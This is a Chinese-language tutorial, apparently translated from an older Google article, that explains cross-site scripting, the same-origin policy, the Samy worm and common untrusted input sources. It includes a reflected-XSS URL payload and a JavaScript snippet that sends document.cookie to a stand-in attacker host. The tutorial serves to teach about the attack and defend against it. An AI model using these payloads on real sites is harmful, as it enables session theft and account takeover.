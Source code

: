 # XSS事项 如何过滤用户输入的标签属性

由于Web浏览器实行一种[同源策略](http://www.mozilla.org/projects/security/components/same-origin.html)，脚本（如`JavaScript`或`VBScript`）想要访问文档中的资源（包括COOKIES和DOM对象以及DOM对象的属性），则必须和文档处于一个相同的域名，包括端口。

翻译自:[原文出处](http://soulteary.com/redirect?r=https://code.google.com/p/doctype-mirror/wiki/ArticleIntroductionToXSS&k=31e40) VER:`Updated Oct 14, 2011 by ivan@ludios.org` 这种策略是必要的，用来防止页面中加载不安全的脚本，例如从`www.张伟是坏蛋.com`访问`weibo.com`的`cookies`。

如果没有这种同源策略的话，假设**微博**的页面被嵌入了来自**张伟是坏蛋**这个网站的恶意脚本，那么**张伟是坏蛋**的恶意脚本就可以修改伪装**微博**页面的DOM结构和内容，扭曲一些事情，或者获取用户在**微博**的cookies，进一步去做一些不怀好意的事情。

### 漏洞举例：

假设`张伟是坏蛋.com`要这么做，那么它要如何做呢？

继续假设微博有这么一个地址，`http://weibo.com/?u=soulteary`，访问这个地址会返回下面的HTML页面内容。

```
...

这里是soulteary的微博，他喜欢收集一些有意思的文章。

...
```

再继续假设写这个功能的程序员当时有事情，疏忽了过滤页面请求中的参数u的内容的内容有效性的处理，比如过滤或者编码。 如果这个时候，有人修改刚刚的URL地址中的参数，再进行请求，那么结果应该是这样：

请求地址 `http://weibo.com/?u=soulteary+%3Cscript%3Eevil_script()%3C/script%3E`

返回结果：

```
...

这里是soulteary<script>evil_script()</script>的微博，他喜欢收集一些有意思的文章。

...
```

那么好了，**张伟是坏蛋**，使用隐形的`iframe`将页面加载在浏览器中，请求上边提到的被修改过的URL。 当受害者从**张伟是坏蛋**那里访问页面，浏览器将加载`iframe`中的内容，出现上面的情况。

这是浏览器将会执行`evil_script`这个脚本中的内容，特别需要注意的一点，脚本的执行位置是`weibo.com`这个网站。

### 漏洞举例：

如果脚本被执行了，那么这个脚本可能会去做什么呢。

#### 窃取Cookies

攻击者可能会这样做：

```js
i = new Image();
i.src="http://www.张伟是坏蛋.org/snarf?cookie=" + escape(document.cookie);
```

这样，攻击者就将受害者的微博cookies发送到了自己的网站，获得了用户在微博上的cookies。 当用户访问`张伟是坏蛋`的时候，攻击者可以将获得到的cookies加入自己的浏览器中，从而伪装成用户登录微博。 如果这个网站不是微博，而是支付宝，或者银行呢，或者是工作邮箱呢？

#### 攻击网络应用

即使攻击者不想获取受害者的cookies以及伪装用户登录网站，攻击者依然可以造成很大的损害。比如攻击者不想让自己的IP记录出现在服务器日志中。 攻击者注入的脚本可以让用户在访问攻击页面的时候，发送包含特定内容的邮件，或着发送银行的流水，或者删除一些隐私。 举个例子，一个叫做“萨米”的蠕虫病毒，在MySpace的社交网站上发布。该蠕虫使用了MySpace的网站上的XSS漏洞，让用户在不自觉的情况下添加一个叫做萨米的朋友关系，并利用MySpace上的朋友关系，继续传播。同样的，微博也有过这样的XSS漏洞，当你发现你莫名其妙关注了谁谁，或许你是访问了攻击页面，受到了未知攻击者的攻击。

#### 篡改WEB应用的UI界面

或者攻击者只是想得到用户的某些网站的帐号密码，这种情况多出现在社会工程学的用例中，比如伪造一些网站或者将一些元素覆盖在真实的页面上，获取用户输入的内容。 比如在一些较小的新闻站点上伪造一些假新闻，或者是在一些购物网站上伪造账户输入框，获取你的帐号信息。

#### 不可信的数据来源

上之前的例子中，攻击者通过改变应用程序的URL的请求参数向目标页面中注入恶意脚本。 请求参数以及表单(Query parameters、Form fields)是一种常见的也是易于被XSS利用的载体。 然而，任何数据可以在攻击者的控制之下插入到HTML文档中引起XSS漏洞。这些数据包含并不仅限于：

*   URL中的请求参数
*   URL的一部分，可能输出例如"某某文档未找到"的错误消息。
*   表单，包括隐藏项目。
*   Cookies
*   HTTP请求头的其他部分，比如referrer地址。
*   早些时候可能由其他用户插入并保存的数据，比如微博上的消息，邮箱中的信件。
*   由第三方提供的数据。比如Google产品搜索中的内容。
*   WEB搜索引擎抓取的内容(Google Search)或本地磁盘的内容(Google Desktop)。

## 扩展阅读

*   [Everything you ever wanted to know about cross-site scripting (XSS) attacks](https://code.google.com/p/doctype-mirror/wiki/ArticleXSS)
*   [Same Origin Policy](http://www.mozilla.org/projects/security/components/same-origin.html)
*   [Cross-Site Scripting Worm Floods MySpace (slashdot.org)](http://it.slashdot.org/it/05/10/14/126233.shtml)

